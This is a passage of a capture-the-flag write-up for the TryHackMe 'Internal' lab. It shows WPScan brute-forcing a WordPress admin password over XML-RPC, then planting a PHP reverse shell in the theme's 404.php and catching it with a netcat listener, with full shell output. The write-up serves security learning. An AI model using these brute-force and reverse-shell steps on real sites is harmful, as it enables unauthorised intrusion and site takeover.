  | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <==================> (21 / 21) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys
Trying admin / bratz1 Time: 00:02:33 <===================> (3885 / 3885) 100.00% Time: 00:02:33

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Sat Oct 17 18:41:32 2020
[+] Requests Done: 3910
[+] Cached Requests: 32
[+] Data Sent: 1.906 MB
[+] Data Received: 2.295 MB
[+] Memory used: 833.793 MB
[+] Elapsed time: 00:03:34

password found : my2boys
let's enter to admin Dashboard and install a php reverse shell
go to theme > themes editor > 404.php > paste you php reverse shell and save
start a listening using netcat
command used : nc -nlvp "port you are selected in reverse shell"
run in your browser : http://Your_IP_Machine/blog/wp-content/themes/twentyseventeen/404.php

and we get a shell but with www-data user permissions

kali@kali:~/CTFs/tryhackme/Internal$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [Your_IP] from (UNKNOWN) [Your_IP_Traget] 53194
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:41:43 up 9 min,  0 users,  load average: 0.59, 0.52, 0.25
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1071): Inappropriate ioctl for device
bash: no job control in this shell
www-data@internal:/$
let's show user we have in home directory
command used : ls /home
we have : aubreanna user
